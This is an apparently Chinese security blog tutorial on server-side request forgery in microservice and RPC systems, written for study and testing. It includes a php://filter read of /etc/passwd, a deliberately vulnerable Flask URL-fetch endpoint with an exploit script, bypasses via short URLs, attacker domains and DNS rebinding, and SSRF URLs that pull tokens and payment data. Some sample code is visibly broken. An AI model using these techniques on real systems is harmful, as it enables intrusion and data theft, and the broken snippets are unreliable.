


微服务与RPC架构下SSRF的新玩法

- - -

# 微服务与RPC架构下SSRF的新玩法

### 微服务：

随着互联网技术的发展和企业对快速迭代、高可用性、可扩展性的需求增加，微服务架构逐渐成为一种主流的软件开发方法，微服务的软件架构风格，将一个应用程序划分为一组小型、独立的服务，这些服务可以独立开发、部署和扩展。每个微服务都运行在自己的进程中，通过轻量级的通信机制协同工作，例如 HTTP 或消息队列。这使得应用程序更容易维护、扩展和部署。

**微服务架构模型 核心便是 以大化小，互互相连**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204155833-ec033bdc-927a-1.png)

### RPC ：

RPC是一种计算机通信协议，它允许位于一个网络上的不同系统之间的程序调用彼此的函数或方法，就像本地调用一样。RPC的概念和实现可以追溯到20世纪80年代，最早的实现之一是Sun Microsystems的RPC系统。随着分布式系统和网络计算的发展，RPC逐渐成为了实现分布式系统和微服务之间通信的重要手段。

我们要用RPC是因为它可以帮助我们构建分布式系统和微服务架构，解决单体应用的一些问题，如耦合度高、维护难、技术栈受限、扩展困难等

RPC核心理念 **远程调用如本地一样**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204155911-0291c4ea-927b-1.png)

- - -

通过以上解析不难看出,微服务与RPC就相阴阳八卦，相辅相成的，其中的原理是微服务架构中，服务之间的通信是关键。RPC作为一种高效的通信手段，允许开发者像调用本地函数一样调用远程函数，简化了底层网络通信的复杂性。通过RPC，微服务可以轻松地互相调用、传递数据和执行操作，实现解耦和协同工作

而他们的关系便是 RPC作为微服务之间的通信手段，微服务架构也为RPC的应用提供了广泛的应用场景。两者相辅相成，共同推动了分布式系统发展

下面是用Python和RPC框架`jsonrpclib`实现经典微服务与RPC通信的简单示例。在这个例子中，我们将创建一个简单的气象服务（WeatherService），它提供了查询天气的功能。我们将分别实现服务端和客户端

首先，安装`jsonrpclib`库：

```plain
pip install jsonrpclib
```

1.  创建气象服务接口（WeatherService）：

```plain
# weather_service.py
from jsonrpclib import ServerProxy

class WeatherService:
    def __init__(self, url):
        self.service_url = url
        self.proxy = ServerProxy(self.service_url)

    def get_weather(self, city):
        return self.proxy.get_weather(city)
```

1.  创建RPC服务端：

```plain
# server.py
from jsonrpclib import Server
from weather_service import WeatherService

server = Server()

# 注册气象服务
weather_service = WeatherService("http://localhost:8000")
server.register_instance methods.serve(weather_service)

if __name__ == "__main__":
    print("Starting RPC server...")
    server.serve()
```

1.  创建RPC客户端：

```plain
# client.py
import json
import requests
from weather_service import WeatherService

def call_get_weather(city):
    url = "http://localhost:8000"  # RPC服务器地址
    payload = {"method": "get_weather", "params": {"city": city}, "id": 1}
    response = requests.post(url, data=json.dumps(payload)).json()

    if "result" in response:
        return response["result"]
    else:
        raise Exception("RPC call failed: {}".format(response))

if __name__ == "__main__":
    city = "New York"
    weather = call_get_weather(city)
    print(f"The weather in {city} is: {weather}")
```

运行模式

1.  首先，启动RPC服务端。在命令行中，导航到包含`server.py`文件的目录，并运行：

```plain
python server.py
```

你应该会看到输出：

```plain
Starting RPC server...
```

这表示RPC服务端已在端口8000上启动并等待客户端请求。

1.  接下来，运行RPC客户端。在另一个命令行窗口中，导航到包含`client.py`文件的目录，并运行：

```plain
python client.py
```

你应该会看到输出：

```plain
The weather in New York is: Sunny
```

这表示客户端已成功调用RPC服务端上的`get_weather`方法，并获取了纽约的天气信息 至此运行完毕。

我们首先定义了一个气象服务接口（WeatherService），然后在RPC服务端实现了这个服务。接下来，我们创建了一个客户端来调用这个服务。当客户端调用`call_get_weather`函数时，它将通过HTTP POST请求与RPC服务器通信，实际的气象服务可能会从外部数据源（如气象API）获取实时天气数据

**这便是经典的微服务与RPC框架的，他们结合使得开发者能够更轻松地构建、部署和维护分布式系统，提高了系统的可伸缩性和灵活性，**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204160106-4718e4cc-927b-1.webp)

**我们知道一个漏洞的产生，不仅仅是单方面代码的问题，有时候也会受到第三方环境的影响，而微服务与RPC框架的本身的特性也导致了一个漏洞重新流行起来 SSRF**

**首先我们看看常规也就是传统的SSRF利用**

## SSRF（服务器端请求伪造）

**原因：**

为了提供良好的用户体验和满足用户需求，应用程序通常会提供与用户互动的接口，允许用户输入数据、发送请求或执行某些操作。这种交互性可以使应用程序更加灵活和易用，但同时也可能带来一定的安全风险，比如SSRF漏洞

## SSRF原理：

SSRF的底层原理是利用存在缺陷的Web应用作为代理，向内部或外部的服务器发起请求，从而获取或影响目标服务器的数据或状态。SSRF的产生原因是服务端没有对用户输入的URL进行有效的过滤和限制，导致攻击者可以构造任意的请求，包括一些特殊的协议和端口

### 利用目标：

SSRF 通常针对从互联网无法访问的服务，使攻击者能够利用内部系统中的漏洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231204160216-70902d74-927b-1.png)

### SSRF 攻击：

SSRF 是一种网络攻击，攻击者通过欺骗应用程序将恶意请求发送到应用程序所能访问的内部资源。攻击者可以通过篡改请求中的 URL 或使用其他手法，将请求发送到本地网络或互联网上的其他敏感资源。

SSRF 攻击利用服务器发出对指定资源的请求。常见的协议包括 HTTP/HTTPS、文件、LDAP、zlib、phar、tar 和 rar。

## 网络协议

网络协议是由通信的计算机共同遵守的规则，以促进有效的通信。遵循这些规则使计算机能够有效地交换数据。

**伪协议**

伪协议不是普遍共享的协议，通常特定于某种语言或程序。它们是为满足内部通信需求而自行创建的协议。

PHP 伪协议利用  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231204160330-9cf076ee-927b-1.png)

利用技术：

1.  **跟踪输入点：** 确定 PHP 程序与外部数据交互的输入点。
2.  **文件操作函数：** 关注诸如 `readfile` 和 `file` 之类的函数，可能存在利用的机会。
3.  **控制参数：** 控制输入的参数，允许进行操纵。

假设攻击者想要读取服务器上的一个敏感文件，例如`/etc/passwd`。攻击者可以在PHP代码中使用PHP伪协议（如`php://filter`或`php://input`）来实现这一目的。

1.  使用php://filter伪协议：

```plain
<?php
$file_content = file_get_contents('php://filter/read=convert.base64-encode/resource=/etc/passwd');
echo $file_content; // 输出编码后的文件内容
?>
```

这段代码将读取`/etc/passwd`文件的内容，并使用base64编码。攻击者需要解码输出的内容以获取原始文件内容。

2.使用php://input伪协议：

```plain
<?php
$file_content = file_get_contents('php://input');
echo $file_content; // 输出文件内容
?>
```

攻击者需要将`/etc/passwd`文件的内容通过HTTP POST请求发送到服务器。然后，PHP脚本将读取POST数据并输出文件内容。

PHP Curl 示例：

```plain
phpCopy code<?php
$file = $_GET['file'];
$resp = file_get_contents($file);
echo $resp;
?>
```

## 传统常用的攻击方式

### 访问内部 Web和端口扫描：

利用 HTTP/HTTPS 协议访问本地主机或内部网络上的 Web 应用程序。

利用各种协议进行扫描内部端口，如文件、LDAP、zlib、phar、tar 和 rar。

在内网环境中，存在一些可能开放但缺乏强鉴权的服务，这为攻击者提供了潜在的漏洞利用点。其中，常见的利用方式包括通过 SSRF（服务器端请求伪造）探测内网中 Web 服务的指纹信息。通过这种方式，攻击者可以确认是否存在特定应用程序，甚至可能发现可直接执行远程代码（RCE）的 web 服务。此外，攻击者还可以采用盲打 RCE 的方式，对内网的 web 服务进行直接攻击。这种方法在早期的网络攻防环境甚至当前网络安全环境中仍然适用。

一个利用模型流程

首先，我们需要创建一个模拟存在SSRF漏洞的网站。这个网站允许用户输入一个URL，并通过一个名为`fetch_url`的API端点来访问该URL。这是一个简单的Python Flask应用：

1.  安装Flask：`pip install Flask`
2.  创建一个名为`app.py`的文件，然后添加以下代码：

```plain
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/fetch_url', methods=['POST'])
def fetch_url():
    url = request.form.get('url')
    try:
        response = requests.get(url)
        return jsonify({'status': 'success', 'content': response.text})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

if __name__ == '__main__':
    app.run(debug=True)
```

1.  运行应用：`python app.py`
2.  此时，应用程序应该在`http://127.0.0.1:5000/`运行，并提供一个`/fetch_url`端点，用于接收URL参数。

现在，我们来模拟利用这个SSRF漏洞访问内部Web服务器。假设内部Web服务器的IP地址为`192.168.1.100`，我们想要访问的敏感页面路径为`/secret_page`。

1.  安装`requests`库：`pip install requests`
2.  创建一个名为`exploit.py`的文件，然后添加以下代码：

```plain
import requests

def exploit_ssrf(url):
    target_url = "http://192.168.1.100:80/secret_page"
    # 这里我们使用HTTP POST请求，将目标URL作为表单数据发送
    payload = {'url': target_url}
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Success: Retrieved content from internal web server")
        print(response.text)
    else:
        print("Failed: Unable to retrieve content from internal web server")

if __name__ == "__main__":
    # 替换为你在步骤3中找到的SSRF漏洞URL
    ssrf_url = "http://127.0.0.1:5000/fetch_url"
    exploit_ssrf(ssrf_url)
```

1.  运行脚本：`python exploit.py`
2.  如果一切正常，你应该能够看到从内部Web服务器获取的敏感页面内容。

通过 SSRF 进行文件读取：

SSRF 可以利用不同的协议（如`file`、`ldap`、`zlib`、`phar`、`tar`、`rar`用于 PHP，`jar` 用于 Java）来读取任意文件。这可以用于代码审计、访问配置文件或检索密码。

对内部应用进行 SSRF 攻击：

攻击者可以使用诸如 `dict` 和 `gopher`（被称为多用途协议）的协议，构建其他应用的通信协议。通过在 `dict` 或 `gopher` 中封装这些协议，攻击者可以与其他应用进行通信。这常常用于攻击内部应用，如 Redis、fastCGI/php-fpm。

### SSRF 检测和绕过：

1.  **短网址结合 SSRF：**
    
    -   攻击者首先创建一个指向他们想要访问的内部资源的短网址。
        
    -   将短网址发送到存在 SSRF 漏洞的服务器，服务器解析这个短网址，实际上访问攻击者指定的内部资源，完成 SSRF 攻击。
        
        ```plain
        **短网址配合SSRF：**
        
        1. 首先，你发现目标服务器内部有一个管理界面，其URL是：http://192.168.1.1/admin。
        2. 你不能直接从外部访问这个地址，但你可以通过SSRF漏洞让服务器自己去访问它。
        3. 你通过一个短网址服务（例如bit.ly）将这个长URL转换成短URL，例如http://bit.ly/123。
        4. 然后，你在有SSRF漏洞的地方输入这个短URL，服务器会解析这个短URL，然后访问http://192.168.1.1/admin
        5. 通过这种方式，你就可以让服务器访问到内部的资源，实现了SSRF攻击。
        ```
        

1.  **自建网址进行访问：**
    
    -   攻击者可以提供更多的控制，甚至在自建网址上放置恶意代码，让服务器在访问时执行这些代码。
        
        ```plain
        比如，攻击者可以在自建的网址上放置恶意代码，当服务器访问这个网址时，就会执行这些恶意代码
        
        - 攻击者在`http://attacker.com`部署了一个恶意网站。
        - 利用SSRF漏洞，攻击者让服务器访问`http://attacker.com/malicious`，从而触发恶意操作。
        ```
        

1.  **域名访问：**
    
    -   攻击者构造一个恶意请求，其中包含对`malicious-example.com`的访问。
        
    -   由于存在SSRF漏洞，攻击者利用SSRF漏洞在受害服务器上构造恶意请求，从而控制服务器发起对`malicious-example.com`或其他目标的实际请求。
        
    -   攻击者可能将`malicious-example.com`指向自己的恶意服务器，以获取敏感信息、执行远程命令等恶意操作。
        
        配合前面，脑补一下 如果malicious-example.com本身就是我的网址，并且做了短网址重定向，并且我在上面写入了DOM-XSS和CSRF的恶意代码，SSRF漏洞的服务器被我引导过来，那么后续的用户不也一样？ 隐蔽 社工 信息窃取 三漏洞结合
        
        或者 网页使用您提供的一些信息自动创建 PDF，您可以**插入一些 JS，这些 JS 将在创建 PDF 时由 PDF 创建者**本身（服务器）执行，您将能够滥用 SSRF，利用XSS恶意代码（代码触发了一个向内部网络发起请求的SSRF漏洞。）生成PDF，让服务器解析 最终执行SSRF
        
        ```plain
        1. 在你的`evil.com`服务器上，你设置了一个DNS A记录指向你想要访问的内网IP，例如192.168.1.1（这是你无法直接访问的内部资源）。
        2. 在存在SSRF漏洞的地方，你输入`http://evil.com`。服务器将会解析这个域名，并实际上访问192.168.1.1。
        3. 通过这种方式，你就利用SSRF漏洞让服务器访问了内部资源。这种方法的优点是你可以随时改变DNS记录来访问不同的内部资源
        ```
        
    
    **由于域名的所有权和使用可能更难追踪，攻击者可以更容易地隐藏其真实身份和位置，增加了攻击的隐蔽性**
    

- - -

# SSRF 黑盒测试重点

### 业务功能测试：

1.  **社交分享：**
    -   尝试提供不同来源的 URL，包括私有和公共 URL，以确认系统是否正确获取标题。
    -   检查是否存在限制，防止访问潜在恶意或危险的 URL。
2.  **转码服务：**
    -   提供包含不同编码、特殊字符和非标准协议的 URL，以测试系统对URL的处理。
    -   检查是否有适当的限制，防止对系统内部资源的访问。
3.  **在线翻译：**
    -   提供包含语言标签或其他标志的 URL，测试系统是否正确处理这些信息。
    -   尝试使用不同语言的 URL，以确保翻译服务按预期工作。
4.  **图片加载/下载：**
    -   提供指向不同类型图像资源（包括本地和远程）的 URL，以确保图像加载和下载功能正常。
    -   测试是否存在对图像大小、类型和来源的有效性验证。
5.  **文章/内容收集：**
    -   提供包含不同内容类型（文本、图像、视频等）的 URL，测试系统是否正确收集并处理这些信息。
    -   检查系统是否有适当的安全机制，以防止从恶意来源获取内容。

### URL 关键参数测试：

1.  **审查参数：**
    -   识别和审查所有与 URL 处理相关的参数，包括但不限于 `share`、`wap`、`url`。
    -   尝试修改这些参数的值，观察系统对于不同输入的反应。
2.  **边界值测试：**
    -   对每个关键参数进行边界值测试，包括超长、超短、特殊字符等情况。
    -   确保系统在极端情况下不会出现意外行为或漏洞。
3.  **协议和编码测试：**
    -   尝试使用不同协议（http、ftp、file）和编码（URL编码、Base64编码等）来测试系统的处理方式。
    -   确保系统对非标准协议和编码有适当的限制。
4.  **重定向测试：**
    -   提供包含重定向的 URL，检查系统是否正确处理和跟随重定向。
    -   确保不会因为恶意的重定向而导致安全问题。
5.  **权限验证：**
    -   确保系统在执行涉及到敏感操作的 SSRF 请求时进行适当的权限验证，防止未经授权的访问。

**以上演示和介绍了常规的SSRF利用技巧手法。**

这种利用方式之所以有效，一方面是因为内网中的服务通常认为自身处于相对安全的环境，可能在安全措施上，特别是鉴权方面做得不够严格。另一方面，复杂的网络环境也为攻击者提供了机会。大型组织的网络结构通常非常庞杂，包含多个子网、内部服务和应用程序。在管理和保护这些网络资源方面存在挑战，导致一些内部 Web 服务未经适当的鉴权和访问控制。这使得攻击者可以更容易地找到并利用这些漏洞。

**而随着微服务和RPC框架的发展和本身的特性导致，SSRF利用 远不止如此**

## 微服务和 RPC 架构的影响：

首先 SSRF支持跨协议 从http/https到其他协议

其次 微服务和 RPC 架构的流行性增强了 SSRF 攻击，因为它们也支持跨协议的攻击。

刚刚我们在上面详细解释了微服务与RPC框架的优势。但其实 这些优势同样也带来风险

-   微服务架构需要通过网络请求来实现服务之间的通信和协作，这就增加了网络请求的数量和复杂度，也就增加了SSRF漏洞的可能性和影响范围。
-   RPC框架是一种实现微服务之间通信的技术，它可以让服务消费者像调用本地方法一样调用远程服务，而不需要关心网络细节。这就降低了服务消费者对网络请求的控制和检查，也就降低了对SSRF漏洞的防范和发现能力。
-   微服务和RPC框架通常需要使用服务注册中心来管理服务的元数据，如服务的地址、端口、协议等。如果服务注册中心被攻击者控制或篡改，那么攻击者就可以利用SSRF漏洞来访问或攻击任意的服务。
-   微服务和RPC框架通常需要使用序列化器来将对象转换为字节流，以便在网络传输层进行数据传输。如果序列化器存在漏洞或者没有对输入进行校验，那么攻击者就可以利用SSRF漏洞来执行任意的代码或命令。

### 微服务、RPC 架构和 SSRF 攻击的关系：

**主要关注的有以下三点**

1.  **跨协议通信：** 微服务架构通常涉及多个服务之间的协同工作，这些服务可能使用不同的通信协议，例如 HTTP、RPC 或者其他自定义协议。攻击者可以通过构造特定的请求，跨协议地访问其他服务，从而绕过一些安全机制。
2.  **内部网络访问：** 微服务通常在内部网络中运行，它们可能需要相互通信以完成某些任务。攻击者通过 SSRF 可能能够直接访问这些内部服务，绕过了一些边界安全措施。
3.  **服务发现和注册：** 微服务架构通常使用服务发现和注册机制，其中服务的位置信息可能被动态获取。如果攻击者能够通过 SSRF 攻击来篡改或伪造服务的注册信息，就有可能导致应用程序误将请求发送到恶意服务器上。

### SSRF 和远程过程调用（RPC）架构举例：

1.  **微服务架构：**
    
    -   假设有一个基于微服务架构的电子商务系统，包括用户服务、产品服务和订单服务。
    -   这些微服务相互通信，可能使用 HTTP、RPC 或其他自定义协议。
2.  **RPC 架构：**
    
    -   RPC 是远程过程调用的一种通信方式，允许在不同计算机上的程序之间进行通信。
    -   微服务中的某些服务可能使用 RPC 进行跨服务的远程调用。
3.  **SSRF 攻击示例：**
    
    -   攻击者在某个服务中发现了 SSRF 漏洞，该服务允许通过用户输入的 URL 发起请求。
        
    -   攻击者构造了一个恶意请求，其中的 URL 不仅仅是指向外部服务器，还跨越了协议，例如从 HTTP 到 RPC。
        
    -   攻击者的请求可能如下所示：
        
        ```plain
        plaintextCopy code
        http://malicious-server.com/rpc-endpoint?param=value
        ```
        
    -   这个 URL 中，`http` 部分表示 HTTP 协议，但 `rpc-endpoint` 部分指示了 RPC 远程过程调用。
        
    -   服务器解析并执行该请求，实际上发起了一个跨协议的远程调用。
        
4.  **攻击的影响：**
    
    -   由于 SSRF 跨协议的特性，攻击者可以在微服务架构中触发不同服务的远程调用，而不仅仅是传统的 HTTP 请求。
    -   这可能导致对其他服务的未经授权访问，绕过了一些安全机制。

# 微服务与RPC架构下SSRF黑盒测试利用点

### 1\. **服务端请求伪造：**

-   **利用点：** 在微服务架构中，通过SSRF尝试伪造服务端请求，冒充其他微服务之间的通信，以执行未经授权的操作。
-   **示例：** 发起SSRF请求，尝试向其他微服务发送未经授权的命令或操作，检查系统是否验证了请求的来源和目标。

### 2\. **内部服务调用：**

-   **利用点：** 利用SSRF试图调用其他微服务，检查系统是否对于内部服务调用进行适当的身份验证和授权。
-   **示例：** 尝试通过SSRF请求访问敏感的微服务端点，查看是否可以绕过授权机制获取数据或执行操作。

### 3\. **敏感信息泄漏：**

-   **利用点：** 通过SSRF访问微服务的敏感端点或敏感信息，检查系统是否容易泄漏内部服务的配置信息。
-   **示例：** 尝试通过SSRF请求访问微服务的配置端点或获取敏感环境变量，观察是否能够泄漏敏感信息。

### 4\. **服务发现和注册中心：**

-   **利用点：** 利用SSRF请求尝试查看或修改服务发现和注册中心中的信息，测试是否存在未经授权的服务注册或发现。
-   **示例：** 发起SSRF请求，尝试获取服务发现中的所有服务列表，或者修改服务的注册信息，观察系统的反应。

### 5\. **内部端口扫描：**

-   **利用点：** 通过SSRF尝试扫描内部微服务的端口，检查是否可以获取有关微服务的端口开放情况的信息。
-   **示例：** 尝试通过SSRF请求扫描目标微服务的端口，观察系统是否能够有效地防止内部端口扫描。

### 6\. **RPC协议的利用：**

-   **利用点：** 利用SSRF测试是否能够触发RPC调用，检查系统对于RPC协议的处理是否存在安全漏洞。
-   **示例：** 尝试通过SSRF请求执行远程过程调用，观察是否存在未经授权的RPC调用，以及系统是否有适当的验证机制。

### 7\. **数据包大小和超时测试：**

-   **利用点：** 通过SSRF发送大量数据或设置长时间的请求超时，测试系统是否能够有效处理微服务架构中可能的大规模请求。
-   **示例：** 发送大型RPC请求，观察系统是否在处理大规模请求时仍能保持稳定性，避免因此导致的性能问题。

**这七个点 都是微服务与RPC架构下的SSRF可以进行黑盒测试的**

**但我们重点关注的 还是以下四个点**

1.  **内部服务调用：**
    
    -   **重要性：** 微服务之间的调用是微服务架构的核心，也是系统功能的基石。如果存在对内部服务调用的未经授权访问，可能导致信息泄漏、数据破坏或执行未授权的操作。
2.  **服务发现和注册中心：**
    
    -   **重要性：** 服务发现和注册中心是微服务架构中管理和发现微服务的关键组件。未经授权的服务注册或发现可能导致系统配置的混乱，增加安全风险
3.  **敏感信息泄漏：**
    
    -   **重要性：** 微服务架构中，敏感信息（如配置、环境变量等）通常存储在不同的服务中。泄漏这些信息可能导致安全漏洞，攻击者可能利用这些信息进一步渗透系统。
4.  **内部端口扫描：**
    
    -   **重要性：** 微服务可能在不同的端口上监听请求。未经授权的内部端口扫描可能导致服务暴露，增加系统的攻击面。

### 举例内部服务调用：

假设目标系统是一个复杂的微服务架构，包含多个服务，其中每个服务都有各自的 API 端点。我们关注两个服务：`UserService` 和 `PaymentService`。`UserService` 包含用户敏感信息，而 `PaymentService` 处理支付功能。这次我们试图通过SSRF来在不经过授权的情况下，绕过服务调用权限，直接访问 `PaymentService` 的敏感支付信息。

### 流程：

1.  **SSRF请求到`UserService`：**
    
2.  构造SSRF请求，尝试访问 `UserService` 的敏感端点获取用户信息。
    

```plain
httpCopy code
GET http://target-system/vulnerable-endpoint?url=http://user-service/get-sensitive-user-info
```

1.  **获取用户Token：**
    
2.  如果成功，从 `UserService` 获取到了用户的访问令牌（Token）。
    
3.  **伪造请求到`PaymentService`：**
    
4.  使用获取到的用户Token，伪造一个请求，冒充`UserService`，尝试直接访问 `PaymentService` 的支付信息端点。
    

```plain
httpCopy code
GET http://target-system/vulnerable-endpoint?url=http://payment-service/get-payment-info&token=USER_TOKEN
```

1.  **观察系统反应：**
    
2.  观察系统如何处理这个伪造的请求。系统应该能够正确验证请求的来源，并拒绝未经授权的访问，即便使用了有效的用户Token。
    
3.  **变更访问权限：**
    
4.  尝试通过不同的SSRF请求，绕过系统的访问权限，获取其他用户的Token或试图访问不同的端点。
    

### 结果：

```plain
身份验证和SSRF过滤成功的结果：

 - 系统正确验证请求的来源，防止未经授权的服务调用，即便使用了有效的用户Token。
 - 任何试图绕过访问权限的行为应该被系统检测并阻止
```

​ 未做好SSRF过滤和访问控制的结果

​ **SSRF请求到`UserService`：**

​ 成功获取用户敏感信息，例如用户ID、姓名等。

​ **获取用户Token：**

​ 成功获得用户的访问令牌（Token），这可能表明在`UserService`的身份认证和授权方面存在问题。

​ **伪造请求到`PaymentService`：**

​ 成功获取到的用户Token，冒充`UserService`，访问了`PaymentService`的支付信息端点，获得支付相关敏感信息，例如支付交易历史、金额等

## 总结：

在微服务和RPC架构中，SSRF漏洞可能会带来严重的安全风险。由于微服务与RPC架构依赖于网络请求实现服务间的通信和协作，而SSRF漏洞的利用点主要集中在服务间的通信和协作，攻击者则更方便的利用SSRF漏洞访问内部服务、泄漏敏感信息、篡改服务注册信息等

在这里也留一个疑题，属于个人的猜测给师傅们，在我的想法里面 在微服务与RPC框架下的SSRF漏洞 能实现**供应链攻击**：攻击者通过SSRF漏洞篡改服务注册中心的信息，实现供应链攻击  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231204160502-d3789444-927b-1.jpg)

假设我们有一个微服务架构的系统，其中包含多个服务，如服务A、服务B和服务C。这些服务通过服务注册中心进行注册和发现。正常情况下，服务之间的调用是通过服务注册中心提供的服务地址进行的。

攻击者发现了服务A中的SSRF漏洞。利用这个漏洞，攻击者可以向服务注册中心发送恶意请求。攻击者构造一个恶意服务（如服务D），并将其注册到服务注册中心，同时将服务D的地址替换为一个恶意服务器的地址。这样，当服务B尝试调用服务C时，它会从服务注册中心获取服务C的地址。由于攻击者已经利用服务A中的SSRF漏洞篡改了服务注册中心的信息，服务B获取到的地址实际上是攻击者控制的恶意服务器（服务D）的地址。因此，当服务B尝试调用服务C时，它会连接到恶意服务器（服务D）而非真正的服务C。

恶意服务器（服务D）可以执行以下操作。

1.  **数据泄露**：攻击者可以截获服务B与服务C之间的通信，获取敏感数据，如用户信息、交易记录等。
2.  **中间人攻击**：攻击者可以在服务B与服务C之间插入恶意代码，篡改通信内容，实现中间人攻击。
3.  **系统攻陷**：攻击者可以利用恶意服务器进一步攻击服务C，最终实现对整个系统的控制

但这个属于猜想 目前我也没有复现出来 还是太菜了哈哈哈哈，还请各位师傅多多指正~洺熙
